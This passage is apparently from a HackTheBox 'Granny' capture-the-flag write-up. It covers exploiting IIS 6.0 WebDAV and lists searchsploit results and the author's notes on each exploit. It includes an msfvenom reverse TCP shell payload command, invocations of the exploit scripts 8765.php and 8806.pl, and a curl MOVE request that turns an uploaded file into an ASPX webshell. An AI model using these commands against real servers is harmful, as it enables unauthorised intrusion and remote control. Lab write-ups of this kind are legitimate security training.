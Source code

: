 ```
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                    | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                            | windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                   | windows/remote/19033.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------
```

Options

* 41738.py -- launches a calculator program, needs new shellcode
* 8765.php
  * `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.15 LPORT=4444 -f asp > shell.asp`
  * `php -f 8765.php shell.asp granny.htb /images/readme.asp`
  * Not working
* 8806.pl
    * `perl 8806.pl granny.htb images/`
    * Unauthorized to upload to the images dir
    * `perl 8806.pl granny.htb /`
      * `This place is ok though!`
      * put shell.txt

![](/assets/images/htb/granny/shellput.png)
Uploaded some code, now its time to figure out how to turn that capability into a reverse shell. Remember all those allowed http parameters? Nows the time to use them. MOVE is allowed so we can copy the file to a webshell type (as we cant direcictly upload an aspx)
```
curl -X MOVE -H 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/win.txt
```

Webshell access!
```
User accounts for \\GRANNY

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
IUSR_GRANPA              IWAM_GRANPA              Lakis                    
SUPPORT_388945a0         
The command completed successfully.
```

